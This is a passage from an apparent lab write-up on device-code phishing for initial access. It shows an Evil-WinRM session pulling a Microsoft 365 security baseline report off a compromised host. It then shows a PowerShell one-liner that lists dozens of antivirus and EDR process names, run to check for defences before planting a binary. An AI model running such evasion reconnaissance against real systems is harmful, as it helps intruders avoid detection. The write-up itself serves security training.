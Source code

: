 Let's first download the archive
```
*Evil-WinRM* PS C:\DownloadSecurityReports> download M365BaselineConformance.zip
                                        
Info: Downloading C:\DownloadSecurityReports\M365BaselineConformance.zip to M365BaselineConformance.zip
                                        
Info: Download successful!
```

We see a SCuBA report for the Mega Big Tech M365 and Entra ID environment. ScubaGear is an assessment tool created by CISA, that verifies that a Microsoft 365 tenant’s configuration conforms to the policies described in the Secure Cloud Business Applications ([SCuBA](https://cisa.gov/scuba)) Security Configuration Baseline [documents](https://github.com/cisagov/ScubaGear/blob/main/baselines/README.md)

![](leverage-device-code-phishing-for-initial-access-7.png)

Before planting our binary, let's check if anti-virus is running on the endpoint. We can use a simple PowerShell one-liner to check this.
```
$processes = @{ "acnamagent" = "Absolute Persistence - Asset Management"; "acnamlogonagent" = "Absolute Persistence - Asset Management"; "AGMService" = "Adobe - Telemetry"; "AGSService" = "Adobe - Telemetry"; "aswidsagent" = "Avast - AV"; "avastsvc" = "Avast - AV"; "avastui" = "Avast - AV"; "avgnt" = "Avira - AV"; "avguard" = "Avira - AV"; "axcrypt" = "AxCrypt - Encryption"; "bdntwrk" = "Bitdefender - AV"; "updatesrv" = "Bitdefender - AV"; "bdagent" = "Bitdefender Total Security - AV"; "vsserv" = "Bitdefender Total Security - AV"; "cpd" = "Check Point Daemon - Security"; "fw" = "Check Point Firewall - Firewall"; "vpnagent" = "Cisco AnyConnect - VPN"; "vpnui" = "Cisco AnyConnect - VPN"; "aciseagent" = "Cisco Umbrella - Security DNS"; "acumbrellaagent" = "Cisco Umbrella - Security DNS"; "CmRcService" = "CmRcService - Remote Control"; "csfalconcontainer" = "CrowdStrike Falcon - EDR"; "csfalcondaterepair" = "CrowdStrike Falcon - EDR"; "csfalconservice" = "CrowdStrike Falcon - EDR"; "cbcomms" = "CrowdStrike Falcon Insight XDR"; "cybereason" = "Cybereason EDR"; "cytomicendpoint" = "Cytomic Orion - Security"; "DarktraceTSA" = "Darktrace - EDR"; "dsmonitor" = "DriveSentry - Security"; "dwengine" = "DriveSentry - Security"; "egui" = "ESET NOD32 AV"; "ekrn" = "ESET NOD32 AV"; "winlogbeat" = "Elastic Winlogbeat - Security"; "firesvc" = "FireEye Endpoint Agent - Security"; "firetray" = "FireEye Endpoint Agent - Security"; "xagt" = "FireEye HX - Security"; "fortiedr" = "FortiEDR - EDR"; "hips" = "Host Intrusion Prevention System - HIPS"; "avp" = "Kaspersky - AV"; "avpui" = "Kaspersky - AV"; "klwtblfs" = "Kaspersky - AV"; "klwtpwrs" = "Kaspersky - AV"; "ksde" = "Kaspersky Secure Connection - VPN"; "ksdeui" = "Kaspersky Secure Connection - VPN"; "kpf4ss" = "Kerio Personal Firewall - Firewall"; "mbae64" = "Malwarebytes - AV"; "mbamservice" = "Malwarebytes - AV"; "mbamswissarmy" = "Malwarebytes - AV"; "mbamtray" = "Malwarebytes - AV"; "mfeann" = "McAfee - AV"; "mfemms" = "McAfee - AV"; "masvc" = "McAfee - AV"; "macmnsvc" = "McAfee - AV"; "dlpsensor" = "McAfee DLP Sensor - DLP"; "eegoservice" = "McAfee Endpoint Encryption - Encryption"; "mdecryptservice" = "McAfee Endpoint Encryption - Encryption"; "mfeepehost" = "McAfee Endpoint Encryption - Encryption"; "edpa" = "McAfee Endpoint Security - AV"; "shstat" = "McAfee Endpoint Security - AV"; "mcshield" = "McAfee Endpoint Security - AV"; "mfefire" = "McAfee Endpoint Security - Firewall"; "msascuil" = "Windows Defender - AV"; "msmpeng" = "Windows Defender - AV"; "windefend" = "Windows Defender - AV"; "SecurityHealthService" = "Windows Security Health Service"; "tanclient" = "Tanium EDR - EDR" }; foreach ($key in $processes.Keys) { $description = $processes[$key]; if (![string]::IsNullOrWhiteSpace($key)) { $process = Get-Process -Name $key -ErrorAction SilentlyContinue; if ($process) { Write-Output "$description is running." } } }
```
No output, seems like there's no anti-virus running.
